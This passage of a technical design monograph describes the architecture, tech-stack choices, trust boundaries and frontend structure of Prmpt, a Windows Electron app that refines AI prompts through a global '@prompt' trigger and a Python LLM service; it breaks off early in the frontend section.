





# Prmpt — System Deconstruction

A deep-dive technical monograph covering architecture, design decisions, implementation internals, failure modes, and evolution paths for the Prmpt desktop application.

---

## Table of Contents

- [Part 1: Project Overview and Architecture](#part-1-project-overview-and-architecture)
- [Part 2: Tech Stack Deep Dive](#part-2-tech-stack-deep-dive)
- [Part 3: Frontend Deep Dive](#part-3-frontend-deep-dive)
- [Part 4: Backend Deep Dive — Electron Main Process](#part-4-backend-deep-dive--electron-main-process)
- [Part 5: Python AI Service Deep Dive](#part-5-python-ai-service-deep-dive)
- [Part 6: Database Deep Dive](#part-6-database-deep-dive)
- [Part 7: Feature-by-Feature Walkthrough](#part-7-feature-by-feature-walkthrough)
- [Part 8: System Design Patterns and Evolution](#part-8-system-design-patterns-and-evolution)
- [Part 9: 50 Senior Architect Questions and Detailed Answers](#part-9-50-senior-architect-questions-and-detailed-answers)

---

# Part 1: Project Overview and Architecture

## 1.1 What Prmpt Is

Prmpt is a Windows desktop application that optimizes AI prompts. It sits between a user and their LLM interactions: the user writes a rough prompt, Prmpt refines it using a multi-model AI pipeline, and the user pastes the improved version into any application. The key innovation is that this happens either inside a full chat interface or through a system-wide floating overlay triggered by typing `@prompt` in any text field on the operating system.

The product targets professionals who use LLMs daily — developers, writers, analysts — and need consistently better outputs without manually engineering prompts every time. It solves the "garbage in, garbage out" problem of LLM usage at the input layer rather than the output layer.

## 1.2 The Multi-Runtime Architecture

Prmpt is not a single-process application. It is a coordinated system of five distinct runtime environments, each chosen because it solves a specific problem that the others cannot:



Each runtime exists because of a hard constraint:

- **Electron Main Process (Node.js)**: The orchestration hub. It cannot render UI (no DOM), but it can access the filesystem, spawn processes, open native windows, and hold long-lived WebSocket connections. It acts as the single source of truth for auth state and routes all IPC between the renderer windows and external services. Choosing Electron over a pure web app was necessary because Prmpt needs global keyboard hooks, system tray presence, OS-level text replacement, and offline operation — none of which are possible in a browser.

- **Electron Renderer (Chromium)**: Two independent BrowserWindow instances — the main app and the overlay. They share a preload script but have completely separate React trees, routing, and lifecycle. The overlay is always-on-top, frameless, transparent, and uses DWM compositor tricks to avoid flicker. The main app is a standard SPA with sidebar navigation. Both communicate exclusively through the preload bridge — they cannot access Node.js APIs directly due to `contextIsolation: true`.

- **Python Service (FastAPI)**: The AI brain. Python was chosen because the LLM ecosystem (LiteLLM, tiktoken, PyMuPDF, Pillow, faster-whisper) is Python-native. Running this as a separate process rather than embedding it means the AI pipeline can crash, restart, or scale independently without taking down the desktop app. It communicates with Electron over localhost HTTP and WebSocket.

- **Supabase (PostgreSQL + Auth + Storage + Edge Functions)**: The persistence and identity layer. Supabase was chosen over a custom backend because it provides managed PostgreSQL with Row-Level Security, built-in auth with OAuth/OTP/JWT, file storage, and edge functions — eliminating the need to build and host a custom API server. All data access from the Electron main process goes through the Supabase JS SDK with the user's JWT.

- **Rust Native Module (N-API)**: The OS integration layer. A low-level `WH_KEYBOARD_LL` Windows hook that monitors all keystrokes system-wide to detect the `@prompt` trigger sequence. This runs on a dedicated thread in the Electron main process via N-API. Rust was chosen over C++ for memory safety and over pure Node.js because `uiohook-napi` (the alternative) cannot do selective text replacement in arbitrary applications.

## 1.3 Why Not Alternatives?

**Why not a pure web app?** A browser tab cannot install a global keyboard hook, cannot replace text in arbitrary Windows applications, cannot run as a background process, and cannot operate offline. The core product experience — type `@prompt` anywhere, get an overlay — is impossible without desktop integration.

**Why not Tauri?** Tauri uses the OS webview (WebView2 on Windows) instead of bundling Chromium. This saves ~100MB of binary size but introduces rendering inconsistencies across OS versions, limits DevTools debugging, and has a smaller ecosystem for plugins (auto-updater, tray, etc.). Electron's overhead is acceptable for a desktop productivity tool that runs persistently.

**Why not a native app (C#/WPF, Swift)?** The team's expertise is in TypeScript/React. A native app would require maintaining two completely separate codebases for UI and business logic. Electron's trade-off — larger binary size and higher memory usage — is acceptable for a tool that runs alongside other heavy desktop apps.

**Why not embed Python in Electron?** Python's GIL, startup time, and dependency management (venv, conda) make it impractical to embed directly. A separate process communicating over HTTP/WebSocket is simpler to develop, debug, deploy, and restart independently. The network boundary also provides natural fault isolation.

## 1.4 Trust Boundaries

The system has four distinct trust boundaries:

1. **Renderer → Main Process**: The preload script (`electron/preload.ts`) exposes a curated API via `contextBridge.exposeInMainWorld`. The renderer cannot access `ipcRenderer` directly, cannot `require()` Node modules, and cannot reach the filesystem. Every IPC channel is explicitly named and the preload validates basic structure before forwarding.

2. **Main Process → Python Service**: The main process attaches the user's Supabase JWT to every HTTP request (via axios interceptor) and WebSocket connection (via `?token=` query param). The Python service verifies this JWT against Supabase's JWKS endpoint (ES256) with an HS256 fallback. An invalid or expired token results in HTTP 401 or WebSocket close code 4001.

3. **Main Process → Supabase**: All database queries go through the Supabase JS SDK using the user's anon key + JWT. Row-Level Security policies on every table ensure a user can only read/write their own data. The main process never uses the service role key — only edge functions (server-side) do.

4. **Edge Functions → Database**: The `process-deletions` edge function uses the service role key to delete users (GDPR). It validates that the caller provides the service role key as a Bearer token — only the scheduled cron job has this credential.

## 1.5 Request Lifecycle — End to End

To understand how data flows through the system, here is the complete path of a user sending a message in the main chat window:



This sequence reveals several important design decisions:

- **IPC before network**: The file validation, rate limiting, and offline checks happen in the main process before any network call. This ensures the renderer gets immediate feedback for invalid requests.
- **Optimistic UI**: The renderer shows the user message immediately on `message-sent`, before the AI response starts. The streaming chunks are rendered with a typewriter effect via `useSmoothStreaming`.
- **Fire-and-forget enrichment**: Title generation and memory extraction run in background after the main response completes. They are non-blocking and failure-tolerant — if they fail, the chat still works with a default title.
- **Partial resolution on failure**: If the WebSocket closes mid-stream, `PythonClient` resolves the promise with whatever text has accumulated rather than rejecting. The user sees a partial response rather than an error.

## 1.6 Deployment and Runtime Topology



The Python service runs on Render.com as a web service (not locally on the user's machine in production). This means the `PYTHON_SERVICE_URL` environment variable points to a remote HTTPS endpoint in the packaged app (`.env.packaged`), while development uses `http://127.0.0.1:8001`. The Electron app handles the cold-start latency of Render's free tier through aggressive retry logic in `PythonClient.connectWithRetry()` (exponential backoff up to 90 seconds) and a background `connect()` call at startup that warms the connection before the user sends their first message.

Auto-updates are delivered via GitHub Releases using `electron-updater`. The app checks for updates 5 seconds after launch and then every 4 hours. Updates are downloaded automatically and installed on the next quit via `autoUpdater.quitAndInstall()`.

---

# Part 2: Tech Stack Deep Dive

This section examines every major technology choice in the stack. For each one: why it was selected, what alternatives existed, why they were rejected, and what operational consequences the choice carries.

## 2.1 Electron (v32)

**What it does**: Provides the desktop shell — two Chromium-based windows (main app + overlay), a Node.js main process for OS-level operations, and packaging/auto-update infrastructure.

**Why selected**: Prmpt needs global keyboard hooks, system tray, transparent frameless windows, and offline filesystem access. These requirements eliminate pure web apps entirely. Among desktop frameworks, Electron has the largest ecosystem (auto-updater, tray, NSIS installers), the most mature DevTools story, and allows the team to share TypeScript/React expertise across the full stack.

**Alternatives considered**:

| Alternative | Why Rejected |
|-------------|-------------|
| **Tauri** | Uses OS WebView (WebView2) — saves ~100MB binary size but introduces rendering inconsistencies, limited DevTools, smaller plugin ecosystem. No `contextBridge`-equivalent for security isolation. Tauri's IPC model requires more boilerplate for the ~70 IPC channels Prmpt uses. |
| **Flutter Desktop** | Different language (Dart), different rendering engine (Skia), no access to Chromium APIs. Would require rewriting all UI components and abandoning the React/Radix component library. |
| **NW.js** | Older, smaller community, no `contextIsolation`, weaker security model. Same Chromium overhead as Electron but fewer maintained plugins. |
| **Native (C#/WPF)** | Excellent Windows integration but locks out macOS/Linux. Team expertise is TypeScript, not C#. Would require a completely separate UI framework. |

**Tradeoffs accepted**: ~150MB+ installed size, ~200MB+ RAM baseline, Chromium update cadence dependency, V8 garbage collection pauses during heavy IPC bursts.

**How VS Code, Cursor, and Slack make this choice**: VS Code and Cursor are both Electron apps, validating that Electron can handle complex, performance-sensitive desktop tools at scale. Slack moved from Electron to a custom multi-workspace architecture but still uses Electron for the shell. The pattern is consistent: when you need web tech + desktop capabilities, Electron is the pragmatic choice despite its overhead.

## 2.2 React 18 + Vite + TypeScript

**What it does**: React renders the UI in both the main app window and the overlay. Vite handles the build pipeline (HMR in dev, optimized production bundles). TypeScript provides static typing across the entire frontend.

**Why selected**: React's component model maps naturally to Prmpt's UI — a sidebar, chat view, library view, and settings view that share common primitives (buttons, dialogs, inputs). Vite was chosen over Webpack/CRA because it provides sub-second HMR and faster production builds through ESBuild+Rollup. TypeScript is non-negotiable for a codebase where IPC contracts between processes must be kept in sync.

**Alternatives considered**:

| Alternative | Why Rejected |
|-------------|-------------|
| **Vue 3** | Comparable capabilities but smaller component ecosystem for headless UI primitives (Radix has no Vue equivalent). Team familiarity with React was the tiebreaker. |
| **Svelte/SvelteKit** | Excellent performance profile but less mature ecosystem for complex desktop apps. Radix UI, shadcn, and TanStack Query are React-only. |
| **Webpack 5** | Slower cold starts (3-5s vs <1s with Vite), more complex configuration, no native ESM support during dev. |
| **Parcel** | Zero-config but less control over build output paths needed for Electron's dual-window setup (main app + overlay have separate entry points). |

**Tradeoffs accepted**: React's re-render model requires careful `useCallback`/`useRef` usage to avoid stale closures in IPC listeners (visible throughout `Index.tsx` where refs mirror state). Vite's ESM-first approach requires `"type": "module"` in `app-ui/package.json`, which occasionally conflicts with CJS-only dependencies.

**How Notion and Raycast make this choice**: Notion uses React for its desktop app (via Electron). Raycast (macOS productivity launcher) uses React with a custom renderer. Both validate React as suitable for complex, interactive desktop UIs with heavy real-time state updates.

## 2.3 Tailwind CSS + Radix UI + shadcn-style Components

**What it does**: Tailwind provides utility-first CSS. Radix UI provides unstyled, accessible headless components (dialogs, dropdowns, tabs, tooltips). The `components/ui/` directory follows the shadcn pattern — Radix primitives wrapped with Tailwind classes and exported as a local design system.

**Why selected**: This combination gives the speed of utility CSS (no separate stylesheet management) with the accessibility guarantees of Radix (proper ARIA attributes, keyboard navigation, focus management). The shadcn pattern means components are checked into the repo and fully customizable, unlike a traditional component library where you fight the library's opinions.

**Alternatives considered**:

| Alternative | Why Rejected |
|-------------|-------------|
| **Material UI (MUI)** | Opinionated design system — overriding MUI's visual defaults for a custom brand requires extensive theme configuration. Larger bundle size. |
| **Chakra UI** | Similar to MUI in opinionatedness. Better API than MUI but still ships pre-styled components that conflict with custom design intent. |
| **CSS Modules** | More verbose than Tailwind for rapid prototyping. Doesn't provide a utility system for responsive design, spacing, or color tokens. |
| **Styled Components / Emotion** | Runtime CSS-in-JS adds overhead in streaming scenarios where the DOM updates 30 times per second during typewriter animation. Tailwind's static classes have zero runtime cost. |

**Tradeoffs accepted**: Tailwind's utility classes create verbose JSX (long `className` strings). The shadcn pattern means manually maintaining 40+ component files in `components/ui/`. Dark mode requires explicit `dark:` variants on every color utility.

## 2.4 FastAPI + Uvicorn (Python Service)

**What it does**: FastAPI handles HTTP and WebSocket routes for AI optimization, title generation, memory extraction, transcription, and image upload. Uvicorn provides the ASGI server with async support.

**Why selected**: FastAPI is the fastest way to build typed Python APIs with automatic OpenAPI docs, Pydantic validation, and native async/await. The AI ecosystem — LiteLLM, tiktoken, PyMuPDF, Pillow, faster-whisper — is Python-native. Running the AI pipeline in Python and exposing it over HTTP/WebSocket is the most natural architecture.

**Alternatives considered**:

| Alternative | Why Rejected |
|-------------|-------------|
| **Flask** | No native async support — WebSocket streaming would require Flask-SocketIO or Quart, adding complexity. No built-in request validation (need Marshmallow or manual checks). |
| **Django** | Overkill — Django's ORM, admin panel, template engine are unnecessary. Prmpt's Python service is stateless (no database, no sessions). Django adds startup time and dependency weight. |
| **Express.js (Node)** | Would unify the language stack but the AI libraries (LiteLLM, tiktoken, PyMuPDF) have no Node equivalents. Would require Python subprocess calls anyway. |
| **Direct subprocess from Electron** | Eliminates the HTTP boundary but makes the Python process lifecycle coupled to the Electron app. Can't deploy Python separately, can't restart on crash independently, can't scale separately. |

**Tradeoffs accepted**: Network latency between Electron and Python (1-5ms locally, 50-300ms to Render.com). Render.com free tier has cold starts of 30-50 seconds after inactivity. The Python service must be deployed and maintained as a separate infrastructure component.

## 2.5 LiteLLM (LLM Provider Abstraction)

**What it does**: Provides a unified `completion()` API that works across 100+ LLM providers (OpenAI, Anthropic, Google, etc.) with consistent request/response formats. Prmpt routes through OpenRouter, which itself aggregates providers, but LiteLLM handles the protocol translation.

**Why selected**: Using LiteLLM means the `OPTIMIZER_MODEL` can be changed from `openrouter/openai/gpt-4o-mini` to `openrouter/anthropic/claude-3-5-sonnet` by editing a single environment variable — no code changes. It also provides built-in streaming support with `stream=True` and usage tracking via `stream_options={"include_usage": True}`.

**Alternatives considered**:

| Alternative | Why Rejected |
|-------------|-------------|
| **Direct OpenAI SDK** | Locks into one provider. Switching models requires code changes to import different SDKs and handle different response formats. |
| **LangChain** | Much heavier abstraction layer with chain/agent concepts that Prmpt doesn't need. LiteLLM is focused specifically on the completion API, which is exactly what the optimizer needs. |
| **Custom HTTP calls** | Requires maintaining request/response format adapters for each provider. LiteLLM has already solved this for 100+ providers. |

**Tradeoffs accepted**: LiteLLM is a heavy dependency (pulls in many provider SDKs transitively). It adds a layer of abstraction that can obscure provider-specific errors. Version upgrades occasionally break provider-specific behavior.

## 2.6 Supabase (PostgreSQL + Auth + Storage + Edge Functions)

**What it does**: Provides the entire backend-as-a-service: PostgreSQL with Row-Level Security for data, GoTrue for authentication (email/password, OAuth, OTP), S3-compatible storage for file attachments, and Deno-based edge functions for server-side operations.

**Why selected**: Supabase eliminates the need to build, deploy, and maintain a custom API server. The JS SDK works directly from the Electron main process, and RLS policies enforce data isolation at the database level rather than in application code. This is critical because Prmpt has no custom backend API — the Electron app talks directly to Supabase.

**Alternatives considered**:

| Alternative | Why Rejected |
|-------------|-------------|
| **Firebase** | Firestore's document model is less suited for relational data (chats → messages → optimizations). No SQL, no joins, no RLS equivalent. Vendor lock-in to Google's proprietary APIs. |
| **Custom Express/NestJS API + PostgreSQL** | Full control but requires building auth, rate limiting, CORS, deployment, monitoring, and database management from scratch. Massive maintenance burden for a small team. |
| **PocketBase** | Single-binary backend with SQLite. Good for prototypes but SQLite's write concurrency limits and lack of managed hosting make it unsuitable for a product with remote data sync. |
| **Appwrite** | Similar concept to Supabase but less mature, smaller community, fewer client SDKs. |

**Tradeoffs accepted**: Direct SDK access from the client means business logic lives in the Electron main process rather than a server. RLS policies must be carefully written — a missing policy is a data leak. Supabase's free tier has connection limits and storage quotas. Schema changes require SQL migrations rather than ORM-generated code.

**How other products handle this**: Notion uses a custom backend. Slack uses a massive custom infrastructure. But for small-team desktop apps, the Supabase/Firebase pattern (client-side SDK + server-enforced policies) is increasingly common — it trades server control for development velocity.

## 2.7 Rust Native Module (napi-rs)

**What it does**: A Windows-specific N-API addon that installs a `WH_KEYBOARD_LL` hook to detect the `@prompt` trigger sequence globally, and provides `replaceAtLastAnchor()` to inject optimized text back into the triggering application.

**Why selected**: The `@prompt` detection feature requires monitoring every keystroke on the system and replacing text in arbitrary Win32 applications. This is only possible through the Windows API (`SetWindowsHookExW`, `SendInput`). Rust was chosen for the native module because it provides memory safety guarantees that C++ does not, while producing the same performance-critical FFI bindings via napi-rs.

**Alternatives considered**:

| Alternative | Why Rejected |
|-------------|-------------|
| **uiohook-napi** | Pre-built Node.js keyboard hook library. Already a dependency for basic keystroke detection, but it cannot do targeted text replacement in other applications — it only reports key events. |
| **C++ with node-addon-api** | Works but lacks Rust's memory safety. Buffer overflow bugs in a system-wide keyboard hook could crash the entire OS input pipeline. |
| **AutoHotkey / PowerShell** | Scripting approaches that are fragile, hard to debug, and add external process dependencies. |
| **Electron's globalShortcut** | Can register global hotkeys (used for Ctrl+5) but cannot detect arbitrary text sequences like `@prompt` and cannot replace text in other applications. |

**Tradeoffs accepted**: Windows-only (the Rust module uses Win32 APIs). Requires a Rust toolchain to build (`npm run native:build`). Adds a `.node` binary to the packaged app. The keyboard hook runs on a dedicated thread — if it panics, the hook is silently removed rather than crashing the main process (graceful degradation via the `STUB` fallback in `native-bridge.ts`).

## 2.8 Sentry (Observability)

**What it does**: Error tracking and performance monitoring across all three runtimes — Electron main process (`@sentry/electron`), React renderer (`@sentry/react`), and Python service (`sentry-sdk[fastapi]`). Each runtime reports to the same Sentry project with different release tags.

**Why selected**: Sentry is the de facto standard for application error tracking. The Electron SDK handles the unique challenges of desktop error reporting (no server-side error boundary, crashes can happen in the main process). The React integration provides session replay and browser tracing. The Python SDK provides automatic FastAPI middleware integration.

**PII scrubbing**: All three runtimes implement identical `beforeSend` hooks that redact any field matching `/prompt|content|message|text/i`. This is critical because user prompts contain personal and potentially sensitive content that must never reach third-party servers in plain text.

**Alternatives**: Bugsnag and Datadog have Electron SDKs but smaller communities. Self-hosted Sentry (Glitchtip) was considered but adds infrastructure burden. The tradeoff is vendor dependency on Sentry's SaaS.

## 2.9 electron-updater (Auto-Updates)

**What it does**: Checks GitHub Releases for new versions, downloads updates in the background, and installs them on app quit. Uses NSIS as the Windows installer format.

**Why selected**: It integrates natively with Electron Builder (used for packaging) and supports GitHub Releases as the update source. No custom update server needed.

**Alternatives**: Squirrel.Windows (Electron's built-in, but no NSIS support), custom update server (requires hosting), Microsoft Store (requires Store submission process). The GitHub Releases approach provides the fastest iteration cycle — push a tag, CI builds and publishes, users get the update within 4 hours.

**Tradeoffs**: No code signing (yet) — `forceCodeSigning: false` in the build config. Users may see Windows SmartScreen warnings on first install. The 4-hour polling interval means urgent security fixes take up to 4 hours to reach all users.

## 2.10 Key Dependency Versions and Why They Matter

| Dependency | Version | Significance |
|-----------|---------|-------------|
| `electron` | 32.2.7 | Last major before Chromium 130; determines CSP enforcement, WebSocket API, and `contextBridge` behavior |
| `@supabase/supabase-js` | ^2.39.0 | v2 SDK; v3 has breaking changes in auth flow |
| `litellm` | 1.81.14 | Frequent releases (~weekly); pinned because provider API changes often break streaming |
| `fastapi` | 0.128.0 | Post-Pydantic-v2 migration; uses modern `BaseModel` syntax |
| `react` | ^18.3.1 | React 18 concurrent features available but not used (no `useTransition`/`Suspense` for data) |
| `ws` | ^8.19.0 | Node.js WebSocket client for Electron main process → Python communication |

---

# Part 3: Frontend Deep Dive

## 3.1 Dual-Entry Architecture

The frontend is not a single application — it is two completely independent React trees sharing a common component library:

1. **Main App** (`app-ui/src/main.tsx` → `App.tsx` → `Index.tsx`): A full SPA with sidebar navigation, chat interface, prompt library, settings, and history views. Rendered in the primary `BrowserWindow`.

2. **Overlay** (`app-ui/src/overlay/main.tsx` → `overlay/App.tsx`): A lightweight floating panel for quick prompt optimization. Rendered in a separate `BrowserWindow` that is always-on-top, frameless, and transparent.

Both entry points share:
- `components/ui/` (shadcn primitives)
- `index.css` (Tailwind base + theme tokens)
- `types/electron.d.ts` (IPC type contract)
- The same preload script (single `electron/preload.ts`)

They differ in:
- Routing: main app uses `HashRouter`; overlay has no router (single-view)
- State management: main app uses `useSmoothStreaming` for typewriter animation; overlay uses raw `streamingContent` state
- Lifecycle: main app persists across sessions; overlay is opened/closed dozens of times per session

The reason for two separate React trees rather than a single app with conditional rendering is that the overlay BrowserWindow has fundamentally different properties — `transparent: true`, `alwaysOnTop: true`, `frame: false`, custom DWM compositor tricks — that require a separate `BrowserWindow` instance. Electron cannot change these properties after window creation.

## 3.2 Main App: Route Shell and Component Hierarchy

The main app's route structure is defined in `App.tsx`:

```
HashRouter
  ├── /share/c/:token → SharePage (outside AuthWrapper)
  ├── /share/p/:token → SharePromptPage (outside AuthWrapper)
  └── /* → AuthWrapper
        └── / → Index (the actual application)
        └── * → NotFound
```

Share routes are placed outside `AuthWrapper` intentionally. Collection shares (`/share/c/:token`) require auth (enforced inside `SharedLibraryView` via IPC), but prompt shares (`/share/p/:token`) can be viewed without auth via the Edge Function's HTML response. The `HashRouter` is used instead of `BrowserRouter` because Electron loads files from `file://` protocol where pushState doesn't work — hash-based routing is the only reliable option.

The `Index` component (~1400 lines) is the application's central nervous system. It manages:

- **View switching**: `currentView` state controls which panel renders — `chat`, `library`, `settings`, `history`, or `shared-library`. The `Sidebar` component drives navigation.
- **Chat lifecycle**: `selectedChatId`, `messages`, `isGenerating`, and all IPC event handlers for the chat flow.
- **Streaming**: `useSmoothStreaming` hook for typewriter animation of AI responses.
- **Message tree**: `useMessageTree` hook for branching conversation history (edit/retry creates branches, not overwrites).
- **Per-chat UI state**: `useChatUIState` hook preserving input text, mode, skill selection, and attached files per chat.
- **Library data**: Collections and saved prompts loaded from Supabase via IPC.

The component hierarchy:

```
Index
  ├── AppLayout (flex container with drag region for frameless window)
  │   ├── Sidebar (navigation + chat list + profile menu)
  │   └── View Area (switched by currentView)
  │       ├── ChatView (messages + input + streaming + transcription)
  │       │   ├── MessageBubble[] (per message)
  │       │   │   ├── MarkdownContent (react-markdown + remark-gfm)
  │       │   │   └── VersionNavigator (branch navigation)
  │       │   ├── FeedbackWidget (thumbs up/down per message)
  │       │   ├── SkillPicker (skill selection dropdown)
  │       │   ├── PlusMenu (file attachment menu)
  │       │   └── FilePreviewModal
  │       ├── PromptLibrary (collections + prompts + CRUD)
  │       ├── HistoryView (past chats)
  │       ├── SettingsView (theme, font, memory, personalization)
  │       ├── MemoryView (user memory facts)
  │       └── SharedLibraryView (imported shared collections)
  ├── SavePromptModal
  └── PromptPreviewModal
```

## 3.3 State Management: No Store, All IPC

Prmpt does not use Redux, Zustand, MobX, or any global state management library. State is managed through three mechanisms:

1. **React Context (auth only)**: `AuthContext` provides `user`, `isLoading`, and `signOut` to the entire tree. This is the only cross-component shared state.

